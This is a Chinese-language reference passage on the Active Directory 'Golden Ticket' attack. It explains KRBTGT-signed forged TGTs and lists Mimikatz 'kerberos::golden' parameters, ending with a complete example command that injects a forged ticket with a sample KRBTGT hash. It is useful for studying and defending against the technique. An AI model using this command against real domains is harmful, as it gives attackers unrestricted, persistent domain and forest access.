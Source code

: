 
### 黄金票证（Golden Ticket）

黄金票证是一个使用 KRBTGT 帐户的 NTLM 密码哈希来加密和签名的 TGT 。

黄金票证（简称：GT）可以用于创建任何在域中的用户（实际存在或不存在的均可）冒充为任何在域中的组（提供几乎不受限制的权限）的成员以及在域中的任何资源。由于黄金票证是一种身份验证票证（TGT 如下所述），所以其范围是 TGT 整个域（以及利用了 SID 历史的 AD 林），还有一个原因是 TGT 可以用来获取用于访问资源的服务票据（TGS）。黄金票证（TGT）包含了用户组成员信息（PAC），这些信息使用了域的 Kerberos 服务帐户（KRBTGT）进行加密，签名并且只能由 KRBTGT 帐户才能打开并读取这些信息。  
总之，一旦攻击者能够访问 KRBTGT 帐户的密码哈希，他们就可以创建黄金票证（TGT）用于在任何时候访问在 AD 中的任何东西。

### Mimikatz 黄金票证命令参考

创建一个黄金票证的 Mimikatz 命令为 “kerberos::golden”

*   /domain – 指定完全合格的域名称，如: “lab.adsecurity.org”。
*   /sid – 指定域的 SID。 如: “S-1-5-21-1473643419-774954089-2222329127”.
*   /sids – 指定你想要使用票证去欺骗其他在 AD 林中的帐户或组的 SID。这个是根域中，企业管理员组（Enterprise Admins group）的 SID “S-1-5-21-1473643419-774954089-5872329127-519”。[此参数将会添加所提供的 SID 到 SID History 参数。](https://adsecurity.org/?p=1640)
*   /user – 指定假冒的用户名。
*   /groups (可选的) – 指定用户所属组的 RID (第一个是主要的组)。添加用户或计算机帐户的 RID，以获得相同的访问权限。默认组: 513,512,520,518,519 是众所周知的 Administrator 组的 RID（下面会列出）。
*   /krbtgt – 获取域的 KDC 服务帐户(KRBTGT)的 NTLM 密码哈希。用于对 TGT 进行加密和签名。
*   /ticket (可选的) – 提供保存黄金票证文件的路径和名称或者使用 /ptt 参数将黄金票证注入到内存中。
*   /ptt – 是 /ticket 参数的替代参数– 使用该参数可以立即将伪造的票证注入到内存中。
*   /id (可选的) – 用户的 RID。 Mimikatz 中默认的值为 500 (默认的 Administrator 帐户的 RID)。
*   /startoffset (optional) – 当票证可用时指定起始偏移(在使用此选项时通常指定为 -10 或 0 )。 Mimikatz 中默认的值为 0。
*   /endin (可选的) – 票证的生命周期。 Mimikatz 中默认的值为 10 年 (5,262,480 分钟)。 Active Directory 中的 Kerberos 策略设置的值是 10 小时 (600 分钟)。
*   /renewmax (可选的) – 使用了续约的票证的最大生命周期。 Mimikatz 中默认的值为 10 年 (5,262,480 分钟)。 Active Directory 中的 Kerberos 策略设置的值是 7 天 (10,080 分钟)。
*   /sids (可选的) – 指定在 AD 林中的企业管理员组（Enterprise Admins group）([ADRootDomainSID]-519) 中的 SID 以便欺骗在 AD 林中的企业管理员权限 (在 AD 林中的每一个域中的 AD 管理员)。
*   /aes128 – 指定 AES128 的 key
*   /aes256 – 指定 AES256 的 key

### 黄金票证默认的组

*   Domain Users 组的 SID: S-1-5-21-513
*   Domain Admins 组的 SID: S-1-5-21-512
*   Schema Admins 组的 SID: S-1-5-21-518
*   Enterprise Admins 组的 SID: S-1-5-21-519 (只有在林的根域中创建了伪造的票证并使用 /sids 参数指定 AD 林中管理员权限的情况下才会有效)
*   Group Policy Creator Owners 组的 SID: S-1-5-21-520

**kerberos::golden /admin:ADMIINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt**

命令示例：  
**.\mimikatz “kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt” exit**

![p7](http://drops.javaweb.org/uploads/images/f4f9ba278a9e4c366ab808a54b1d960a3f9c7de8.jpg)
